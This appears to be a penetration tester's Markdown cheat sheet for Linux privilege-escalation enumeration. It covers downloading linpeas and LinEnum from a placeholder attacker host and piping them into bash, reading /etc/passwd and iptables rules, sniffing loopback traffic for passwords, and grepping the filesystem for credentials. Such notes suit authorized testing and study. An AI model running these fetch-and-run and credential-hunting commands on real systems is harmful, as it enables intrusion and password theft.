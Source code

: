 ## Automated enumeration

[Linpeas](https://github.com/peass-ng/PEASS-ng/releases/tag/20240811-aea595a1):
```bash
wget http://<IP>/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh -a

-- OR --

curl http://<IP>linpeas.sh|bash
```
>[!warning]
> `-a` flag adds some additional scanning

[LinEnum](https://github.com/rebootuser/LinEnum):
```bash
wget http://<IP>/linenum.sh
chmod +x linenum.sh
./linenum.sh

-- OR --

curl http://<IP>/linenum.sh|bash
```


### Basic info

```bash
id
cat /etc/passwd
hostname
ip a
routel
cat /etc/iptables/rules.v4

sudo tcpdump -i lo -A | grep "pass"
```


### Filesystem enum

Check for config files, DB files and grep for password in directories:
```bash
grep -R "pass"
```
>[!info]
>Case insensitive grep using -i flag

Find writable directories:
```bash
find / -writable -type d 2>/dev/null
```
